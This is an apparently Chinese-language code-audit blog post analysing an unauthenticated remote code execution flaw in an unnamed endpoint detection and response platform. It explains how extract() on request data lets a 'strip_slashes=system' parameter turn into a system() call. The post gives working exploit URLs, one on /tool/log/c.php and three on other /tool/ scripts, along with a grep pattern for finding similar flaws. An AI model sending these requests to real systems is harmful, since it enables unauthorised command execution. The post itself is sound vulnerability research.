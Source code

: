 ```yaml
---
layout: post
author: Vulkey_Chen
title: "某终端检测响应平台代码审计分析"
date: 2020-09-03
music-id: 
permalink: /archives/2020-09-03/2
description: "某终端检测响应平台代码审计分析"
---
```


# 某终端检测响应平台代码审计分析

## 前言

2020年08月17日收到一条漏洞情报，某终端检测响应平台代码未授权RCE：`/tool/log/c.php?strip_slashes=system&host=id`

![-w1120](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15977354683614.jpg)

参数：**host**，可以修改任意的系统命令进行执行。

## 原理分析

首先我们跟进一下**/tool/log/c.php**文件发现其没有任何权限限制，所以我们只需要看一下请求参数是如何传递的，搜索关键词：

```php
$_POST
$_GET
$_REQUEST
```

在代码第144行、146行分别调用了**变量匿名函数**，并将`$_REQUEST`作为传递参数：

```php
$show_form($_REQUEST);
...
$main($_REQUEST);
```

先跟进**$show_form**这个匿名函数：

```php
$show_form = function($params) use(&$strip_slashes, &$show_input) {
    extract($params);
    $host  = isset($host)  ? $strip_slashes($host)  : "127.0.0.1";
    $path  = isset($path)  ? $strip_slashes($path)  : "";
    $row   = isset($row)   ? $strip_slashes($row)   : "";
    $limit = isset($limit) ? $strip_slashes($limit) : 1000;
    
    // 绘制表单
    echo "<pre>";
    echo '<form id="studio" name="studio" method="post" action="">';
    $show_input(array("title" => "Host ",  "name" => "host",  "value" => $host,  "note" => " - host, e.g. 127.0.0.1"));
    $show_input(array("title" => "Path ",  "name" => "path",  "value" => $path,  "note" => " - path regex, e.g. mapreduce"));
    $show_input(array("title" => "Row  ",  "name" => "row",   "value" => $row,   "note" => " - row regex, e.g. \s[w|e]\s"));
    $show_input(array("title" => "Limit",  "name" => "limit", "value" => $limit, "note" => " - top n, e.g. 100"));
    echo '<input type="submit" id="button">';
    echo '</form>';
    echo "</pre>";
};
```

变量匿名函数 **$show_form** 具有一个形式参数 **$params** 在这里也就是`array("strip_slashes"=>"system","host"=>"id");`

接下来执行**extract($params);**，后进入如下代码：

```php
$host  = isset($host)  ? $strip_slashes($host)  : "127.0.0.1";
```

在这个过程中就产生了漏洞，想要了解具体原因，我们需要了解**extract**函数的作用，该函数是根据数组的`key=>value`创建变量`$key=value`（官方解释：**extract — Import variables into the current symbol table from an array**）

知道其函数作用之后，我们就大致明白漏洞原因了。

首先函数传入参数值为`array("strip_slashes"=>"system","host"=>"id");`

经过**extract()**函数后，赋值了2个变量：

```php
$strip_slashes = 'system';
$host = 'id';
```

在第91行代码，变量**$host**利用三元运算重新赋值**\$strip_slashes($host)**

而实际上其赋值内容是函数`system('id')`的返回结果，这也就造成了命令执行漏洞。

## 同类漏洞寻找

首先在全局文件中搜索`$_GET、$_POST、$_REQUEST`和`extract(`，其次在这些文件中使用正则寻找变量函数传递变量：`\$[a-zA-Z0-9_]*\(\$[a-zA-Z0-9_]*\)`

Linux grep寻找命令：

```shell
grep -E "\$_GET|\$_POST|\$_REQUEST" . -r --include \*.php -v | grep "extract(" -v | grep -E "\\\$[a-zA-Z0-9_]*\(\\\$[a-zA-Z0-9_]*\)"
```

简单分析获得了另外三处RCE：

```
/tool/php_cli.php?strip_slashes=system&code=id
/tool/ldb_cli.php?strip_slashes=system&json=id
/tool/mdd_sql.php?strip_slashes=system&root=id
```

但无法真正利用，三处文件开头都有一个类似文件存活的判断，不存在代码则**die**退出，而默认环境上是存在：

![-w568](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15977415061102.jpg)


## 最后

该套程序还有诸多漏洞未被披露出来，建议采用ACL控制访问或下线该业务，等待官方升级补丁。